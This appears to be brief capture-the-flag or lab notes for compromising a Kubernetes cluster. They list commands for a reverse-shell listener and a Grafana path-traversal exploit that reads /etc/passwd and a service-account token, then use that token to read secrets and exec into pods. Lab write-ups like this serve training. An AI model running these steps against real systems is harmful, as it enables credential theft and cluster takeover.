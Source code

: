 ```
sudo openvpn geowarin.ovpn
ip addr
https://www.revshells.com/
python -m pwncat -lp 8888

upload kubectl
./kubectl auth can-i --list
./kubectl get secret secretflag -o json

curl graphana:3000/login
Grafana v8.3.0-beta2

https://www.exploit-db.com/exploits/50581

curl --path-as-is http://grafana:3000/public/plugins/logs/../../../../../../../../../etc/passwd

/var/run/secrets/kubernetes.io/serviceaccount/token
curl --path-as-is http://grafana:3000/public/plugins/logs/../../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token

export TOKEN=...
./kubectl --token=$TOKEN get pods

./kubectl --token=$TOKEN exec -it grafana-... -- /bin/bash
```

https://bishopfox.com/blog/kubernetes-pod-privilege-escalation

https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml


https://kubernetes.io/docs/tasks/access-application-cluster/list-all-running-container-images/

image: syringe:latest
imagePullPolicy: IfNotPresent

